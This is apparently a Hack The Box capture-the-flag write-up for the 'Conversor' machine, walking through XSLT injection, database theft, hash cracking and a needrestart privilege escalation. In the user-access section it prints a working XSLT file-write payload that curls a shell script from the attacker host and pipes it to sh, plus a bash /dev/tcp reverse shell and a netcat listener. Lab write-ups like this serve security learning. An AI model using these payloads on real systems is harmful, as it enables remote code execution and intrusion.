 ```yaml
---

# Conversor (Easy): 10.10.11.92

![Icon](Images/coversoricon.png)

---
```


## Quick overview

A new Linux machine (easy) that presented the following path:

1. **XSLT exploitation** → Database access → **USER.TXT**
2. **Needrestart 3.7 privilege escalation** → [CVE-2024-48990 automatic exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### Nmap enumeration

As usual, we start with an `nmap` scan, which shows the classic ports 22 and 80.

![Icon](Images/nmapscan.png)

We opened the Conversor web page and quickly noticed XML conversion via XSLT. The **About** page hinted that the source is discoverable.

From the source code we found several useful details:

1. The XSLT is exploitable.
2. Python scripts can be executed from the **scripts** directory (this is mentioned in `install.md`).
3. The users database is stored in the **instance** directory.

### First step

We started by obtaining a reverse shell. Using the XSLT file we uploaded, we instructed the server to write a Python script to `/var/www/conversor.htb/scripts/shell.py`, which then uses `curl` to fetch a reverse-shell script from our machine.

Upload the following XSLT file:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

On our machine we started a simple HTTP server with `python3 -m http.server` to host the reverse-shell script:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

Then we ran a netcat listener: `nc -nlvp 9999`.

> Note: For more information on XSLT injection, see [XSLT Injection — PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/).

This gave us initial access, as shown below:

![Icon](Images/xsltrevshell.png)

### Database download

Next, we copied the SQLite database from the target to our machine so we could analyze it safely. We launched a Python HTTP server on the victim to serve the DB and downloaded it locally:

![Icon](Images/dbdownload.png)

I opened the DB with `sqlitebrowser` and found the user **fismathack** with a hashed password:

![Icon](Images/sqlitebrowser.png)

### Final step 

After cracking the hash with [CrackStation](https://crackstation.net) we could log in as **fismathack** over SSH and capture the `USER.TXT` flag.

![Icon](Images/usertxt.png)

---

## ROOT.TXT

### Discovery

We ran `sudo -l` and discovered we could run `needrestart 3.7` with sudo privileges.

![Icon](Images/sudol.png)

### Exploit

A quick research showed that `needrestart 3.7` is vulnerable (CVE-2024-48990). I used the following PoC: [CVE-2024-48990-Automatic-Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit).

> Note: If the exploit doesn't work, reset the machine on HTB and try again.

The exploit grants a root shell, allowing us to read `ROOT.TXT`:

![Icon](Images/privescal.png)

As you can see, the exploit provided a root shell and we captured the `ROOT.TXT` flag.

![Icon](Images/roottxt.png)

---












